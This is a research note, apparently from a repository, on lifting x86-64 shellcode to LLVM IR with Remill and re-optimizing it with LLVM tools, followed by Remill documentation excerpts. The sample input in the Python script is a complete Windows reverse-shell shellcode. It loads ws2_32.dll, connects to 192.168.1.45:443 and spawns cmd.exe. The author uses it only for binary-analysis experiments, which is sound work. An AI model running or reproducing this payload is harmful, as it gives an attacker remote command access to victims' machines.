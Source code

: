 # Minimizing with LLVM and Remill

Before doing function & basic block analysis, id want to "minimize"
or "standardize" the function code. My idea was to use the LLVM
optimizer. This requires the assembly code to be lifted to LLVM-IR.

Even tho it looks like Remill could lift X86 assembly to 
LLVM-IR, it does it in a way which makes it unusable for my purpose. 

It plays tricks to implement low level architectural implementation 
details by implementing them with basically function calls to a 
architecture independant emulator. Basically, all the `__remil_*`
calls will be compiled to ASM too. It bloats the produced and
"optimized" ASM. 

There dont really seem to be projects which can do the X86->LLVM-IL
lifting. LLVM-IL seems to be unsuitable for this job. 


## Lift to LLVM-IL

Note: Install LLVM 16 manually. Use same version in the remill docker container and on your local machine. 


`printshellcode.py`:
```
import sys
buf =  b"\x48\x31\xd2\x65\x48\x8b\x42\x60\x48\x8b\x70\x18\x48\x8b\x76\x20\x4c\x8b\x0e\x4d"
buf += b"\x8b\x09\x4d\x8b\x49\x20\xeb\x63\x41\x8b\x49\x3c\x4d\x31\xff\x41\xb7\x88\x4d\x01"
buf += b"\xcf\x49\x01\xcf\x45\x8b\x3f\x4d\x01\xcf\x41\x8b\x4f\x18\x45\x8b\x77\x20\x4d\x01"
buf += b"\xce\xe3\x3f\xff\xc9\x48\x31\xf6\x41\x8b\x34\x8e\x4c\x01\xce\x48\x31\xc0\x48\x31"
buf += b"\xd2\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x44\x39\xc2\x75\xda\x45"
buf += b"\x8b\x57\x24\x4d\x01\xca\x41\x0f\xb7\x0c\x4a\x45\x8b\x5f\x1c\x4d\x01\xcb\x41\x8b"
buf += b"\x04\x8b\x4c\x01\xc8\xc3\xc3\x4c\x89\xcd\x41\xb8\x8e\x4e\x0e\xec\xe8\x8f\xff\xff"
buf += b"\xff\x49\x89\xc4\x48\x31\xc0\x66\xb8\x6c\x6c\x50\x48\xb8\x57\x53\x32\x5f\x33\x32"
buf += b"\x2e\x64\x50\x48\x89\xe1\x48\x83\xec\x20\x4c\x89\xe0\xff\xd0\x48\x83\xc4\x20\x49"
buf += b"\x89\xc6\x49\x89\xc1\x41\xb8\xcb\xed\xfc\x3b\x4c\x89\xcb\xe8\x55\xff\xff\xff\x48"
buf += b"\x31\xc9\x66\xb9\x98\x01\x48\x29\xcc\x48\x8d\x14\x24\x66\xb9\x02\x02\x48\x83\xec"
buf += b"\x30\xff\xd0\x48\x83\xc4\x30\x49\x89\xd9\x41\xb8\xd9\x09\xf5\xad\xe8\x2b\xff\xff"
buf += b"\xff\x48\x83\xec\x30\x48\x31\xc9\xb1\x02\x48\x31\xd2\xb2\x01\x4d\x31\xc0\x41\xb0"
buf += b"\x06\x4d\x31\xc9\x4c\x89\x4c\x24\x20\x4c\x89\x4c\x24\x28\xff\xd0\x49\x89\xc4\x48"
buf += b"\x83\xc4\x30\x49\x89\xd9\x41\xb8\x0c\xba\x2d\xb3\xe8\xf3\xfe\xff\xff\x48\x83\xec"
buf += b"\x20\x4c\x89\xe1\x48\x31\xd2\xb2\x02\x48\x89\x14\x24\x48\x31\xd2\x66\xba\x01\xbb"
buf += b"\x48\x89\x54\x24\x02\xba\xc0\xa8\x01\x2d\x48\x89\x54\x24\x04\x48\x8d\x14\x24\x4d"
buf += b"\x31\xc0\x41\xb0\x16\x4d\x31\xc9\x48\x83\xec\x38\x4c\x89\x4c\x24\x20\x4c\x89\x4c"
buf += b"\x24\x28\x4c\x89\x4c\x24\x30\xff\xd0\x48\x83\xc4\x38\x49\x89\xe9\x41\xb8\x72\xfe"
buf += b"\xb3\x16\xe8\x99\xfe\xff\xff\x48\xba\x9c\x92\x9b\xd1\x9a\x87\x9a\xff\x48\xf7\xd2"
buf += b"\x52\x48\x89\xe2\x41\x54\x41\x54\x41\x54\x48\x31\xc9\x66\x51\x51\x51\xb1\xff\x66"
buf += b"\xff\xc1\x66\x51\x48\x31\xc9\x66\x51\x66\x51\x51\x51\x51\x51\x51\x51\xb1\x68\x51"
buf += b"\x48\x89\xe7\x48\x89\xe1\x48\x83\xe9\x20\x51\x57\x48\x31\xc9\x51\x51\x51\x48\xff"
buf += b"\xc1\x51\xfe\xc9\x51\x51\x51\x51\x49\x89\xc8\x49\x89\xc9\xff\xd0"
sys.stdout.write(buf.hex())
```
Use remill to lift the shellcode into LLVM-IL:

```
$ podman run --rm -it remill --arch amd64 --ir_out /dev/stdout --bytes "`python3 ./printshellcode
.py`" > shellcode.ll

$ head -n 4 shellcode.ll
; ModuleID = 'lifted_code'
source_filename = "lifted_code"
target datalayout = "e-m:e-i64:64-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu-elf"
```

Compile the LLVM-IL to LLVM-Bitcode: 
`llvm-as is the LLVM assembler.  It reads a file containing human-readable LLVM assembly language, translates it to LLVM bitcode, and writes the result into a file or to standard output.`
```
$ llvm-as-16 shellcode.ll
$ ls -l shellcode.bc
-rw-r--r-- 1 dobin dobin 38440 Sep 11 09:34 shellcode.bc
```

Optimize LLVM-Bitcode:
`The opt command is the modular LLVM optimizer and analyzer.  It takes LLVM source files as input runs the specified optimizations or analyses on it, and then outputs the optimized file.`
```
$ opt-16 shellcode.bc > shellcode-opt.bc
```

Compile LLVM-Bitcode back to x64 assembly:
`The llc command compiles LLVM source inputs into assembly language for a specified architecture.`
```
$ llc-16 -filetype=asm shellcode-opt.bc -o shellcode-opt.asm
```

Note: The resulting `shellcode-opt.asm` will be extremely bloated, 
and basically unusable (see "Remill" below). 

And: 
* llvm-mc: llvm machine code playground
* llvm-dis: LLVM disassembler (bitcode -> LLVM assembly)


# Remill

https://github.com/lifting-bits/remill/blob/master/docs/LIFE_OF_AN_INSTRUCTION.md

## One

;; mov ebx, dword ptr [esp + 8]
(X86 804809e 4 (BYTES 8b 5c 24 08)
  MOV_GPRv_MEMv_32
    (WRITE_OP (REG_32 EBX))
    (READ_OP  (DWORD_PTR (ADD (REG_32 SS_BASE)
                              (REG_32 ESP)
                              (SIGNED_IMM_32 0x8)))))


## Two

Memory *__remill_basic_block_804b7a3(State *state, addr_t pc, Memory *memory) {
  auto &EIP = state.gpr.rip.dword;
  auto &EAX = state.gpr.rax.dword;
  auto &EBX = state.gpr.rbx.dword;
  auto &ESP = state.gpr.rsp.dword;

  // mov    eax, 0x1
  EAX = 1;

  // push   ebx
  ESP -= 4;
  memory = __remill_write_memory_32(memory, ESP, EBX);

  // mov    ebx, dword [esp+0x8]
  EBX = __remill_read_memory_32(memory, ESP + 0x8);

  // int    0x80
  state.hyper_call = AsyncHyperCall::kX86IntN;
  state.interrupt_vector = 0x80;

  EIP = pc + 12;

  return __remill_async_hyper_call(state, EIP, memory)
}